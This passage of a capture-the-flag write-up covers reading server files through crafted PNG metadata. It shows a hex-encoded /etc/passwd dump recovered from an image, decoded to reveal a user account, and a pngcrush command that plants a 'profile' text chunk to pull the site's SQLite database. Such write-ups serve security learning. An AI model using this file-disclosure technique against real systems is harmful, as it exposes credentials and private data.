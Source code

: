 ```bash
36b7570733a2f7573722f.7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c69.7374204d616e616765723a2f7661722f6c6973743a2f7573722f7362696e2f6
e6f6c6f67.696e0a6972633a783a33393a33393a697263643a2f72756e2f697263643a2f7573722f73.62696e2f6e6f6c6f67696e0a676e6174733a783a34313a34313a476e617473204275672d.52
65706f7274696e672053797374656d202861646d696e293a2f7661722f6c69622f676e.6174733a2f7573722f7362696e2f6e6f6c6f67696e0a6e6f626f64793a783a3635353334.3a36353533343a
6e6f626f64793a2f6e6f6e6578697374656e743a2f7573722f7362696e.2f6e6f6c6f67696e0a5f6170743a783a3130303a36353533343a3a2f6e6f6e6578697374.656e743a2f7573722f7362696e
2f6e6f6c6f67696e0a73797374656d642d6e6574776f72.6b3a783a3130313a3130323a73797374656d64204e6574776f726b204d616e6167656d65.6e742c2c2c3a2f72756e2f73797374656d643a
2f7573722f7362696e2f6e6f6c6f67696e.0a73797374656d642d7265736f6c76653a783a3130323a3130333a73797374656d642052.65736f6c7665722c2c2c3a2f72756e2f73797374656d643a2f
7573722f7362696e2f6e6f.6c6f67696e0a6d6573736167656275733a783a3130333a3130393a3a2f6e6f6e65786973.74656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d
74696d6573.796e633a783a3130343a3131303a73797374656d642054696d652053796e6368726f6e69.7a6174696f6e2c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c.6
f67696e0a656d696c793a783a313030303a313030303a656d696c792c2c2c3a2f686f6d.652f656d696c793a2f62696e2f626173680a73797374656d642d636f726564756d703a78.3a3939393a393
9393a73797374656d6420436f72652044756d7065723a2f3a2f7573722f.7362696e2f6e6f6c6f67696e0a737368643a783a3130353a36353533343a3a2f72756e2f.737368643a2f7573722f73626
96e2f6e6f6c6f67696e0a5f6c617572656c3a783a393938.3a3939383a3a2f7661722f6c6f672f6c617572656c3a2f62696e2f66616c73650a.
Warning                         : [minor] Text chunk(s) found after PNG IDAT (may be ignored by some readers)
Datecreate                      : 2023-08-23T08:40:10+00:00
Datemodify                      : 2023-08-23T08:40:10+00:00
Datetimestamp                   : 2023-08-23T08:40:10+00:00
Image Size                      : 512x512
Megapixels                      : 0.262 
```

We got a long hex string, let's copy it to `CyberChef` to decode it.

![q](3.png)

We got the `/etc/passwd` file and found the user `emily`.

Tried to get `emily`s private key but no luck with that.

Looking back at the `login.php` file, we see that that database used is `sqlite`, and the file is located at `var/db/pilgrimage`.

```php
$db = new PDO('sqlite:/var/db/pilgrimage');
```

Let's get that file using the same technique.

```bash
$ pngcrush -text a "profile" "/var/db/pilgrimage" image.png 
  Recompressing IDAT chunks in image.png to pngout.png
   Total length of data found in critical chunks            =     78556
   Best pngcrush method        =   7 (ws 15 fm 0 zl 9 zs 0) =     67736
CPU time decode 0.099510, encode 0.689412, other 0.005913, total 0.808242 sec
```
